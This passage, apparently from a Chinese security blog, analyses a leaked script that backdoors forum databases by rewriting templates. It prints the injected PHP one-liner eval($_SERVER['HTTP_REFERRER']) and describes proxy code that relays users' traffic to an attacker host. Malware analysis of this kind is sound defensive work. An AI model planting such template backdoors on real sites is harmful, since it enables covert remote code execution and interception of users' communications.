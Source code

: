 `-op`参数展示了可以选择的操作，最主要的是`door`,`proxy`和`tag`功能，以及相应的`show`操作，我们也是选择这三部分功能进行分析

因为脚本是直接对数据库进行操作，所以需要指定数据库的连接信息，也可以指定`-conf`参数跟上论坛的配置文件，脚本会自动提取里面的基本信息。其他的参数就是字面意思，包括设置ssl，要包括及排除的用户，设置黑名单等等，可以看出脚本的功能是相当强大的。

#### Backdoor 功能分析
这应该是脚本最简单粗暴的方法，直接在数据库中插入后门代码，之后通过HTTP请求中的`Referrer`字段发送指令，注意此处是`Referrer`而不是默认的`Referer`，隐蔽性非常好。

![backdoor](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/uLFsU)

看一下插入后门的方法(在脚本中打印了执行的sql语句来方便理解)，可以看到插入后门的操作对页脚模板插入了一段base64编码后的代码`eval($_SERVER["HTTP_REFERRER"]);`，在页面渲染页脚部分时就会加载恶意代码，攻击者就可以通过`HTTP_REFERRER`字段下发指令，利用非常简单。我们来看一下它具体是如何实现的

![op_door](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/TPKug)
![patch_db](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/J1Q9m)

很简单的逻辑，将base64编码后的一句话代码插入`template`表的`footer`模板下，在`global.php`调用过程中被加载执行。

![global.php](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/06Abt)

![debug](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/wSBon)

![phpinfo](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/Eumco)

#### Proxy 功能分析
Proxy功能相对复杂一些，但也离不开对模板的操作，它涉及的是`header`模板

![proxyTemplate](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/gGsRT)
![op_proxy](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/KS5ci)

使用proxy时需要指定一个`tag`，而且tagurl需要符合正则表达式`/(.+?)\/.+?\/.+?\/(.+?)\/\d+\/(.+?)\/(.*)/`也就是`x.x.x.x/a/b/c/1/d/`的格式，这地方是个坑...

指定tagurl生成相应的proxy代码

![proxy](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1UrLg)
解码后

![proxy code](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/oXMfY)

`$fahost`就是我们指定的tag的ip。当满足if条件——请求路径中含有`/`且ip不是`64.38.3.50`时，`header`渲染过程中会加载这些php代码，构造一个请求发送给我们的tagUrl。值得注意的是这里不仅支持GET请求，同样支持POST请求，也就是说我们可以作为“中间人”的角色时刻监听着用户与论坛之间的通信，实现了真正意义上的代理，而且用户在这过程中完全无法察觉到，细思极恐...

![proxy request](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/jEOhg)

可以确定的是`64.38.3.50`这个ip一定与攻击组织有关，也许在测试的时候就将此ip排除在外，避免一些麻烦，同时这也是整个脚本泄露的唯一一个确定的ip。

#### Tag 功能分析

![op_tag](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/NXTqW)
Tag功能更加复杂，操作`navbar`模板，使用时有这么几个选项可以指定，`-tag`指定标记的url，`-nohttp`表示不自动加上`http://`，这种情况可以在正常访问时嵌入一个网站本身的url，`-f`Force，还有`ssl`选项，适用于https的情况。

